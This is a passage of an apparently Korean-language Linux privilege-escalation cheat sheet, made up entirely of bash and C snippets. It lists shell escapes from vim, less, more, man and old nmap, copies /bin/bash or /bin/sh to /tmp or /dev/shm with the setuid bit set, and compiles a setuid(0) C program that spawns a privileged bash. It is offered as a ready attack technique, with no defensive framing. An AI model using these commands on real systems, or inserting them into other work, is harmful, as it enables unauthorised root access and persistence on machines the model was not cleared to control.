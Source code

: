 ### 인터랙티브 도구 이용 기법

```bash
# vim/vi 에디터 활용
vim -c ':!sh'
vim
# vim 내에서:
:set shell=/bin/sh
:shell

# less 페이저 활용
less /etc/passwd
# less 내에서:
!sh

# more 페이저 활용
more /etc/passwd
# more 내에서 (화면이 채워진 상태):
!sh

# man 페이저 활용
man man
# man 내에서:
!sh

# 구버전 nmap 활용 (3.x 이하)
nmap --interactive
# nmap 내에서:
!sh
```

### 복사 기법

```bash
# cp를 이용한 쉘 복사
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
/tmp/rootbash -p

# 쓰기 가능한 폴더에 쉘 복사
cp /bin/sh /dev/shm/rootshell
chmod +s /dev/shm/rootshell
/dev/shm/rootshell -p
```

### 컴파일 기법

```bash
# gcc를 이용한 루트 쉘 컴파일
cat > rootshell.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
EOF
gcc rootshell.c -o rootshell
chmod +s rootshell
./rootshell

```
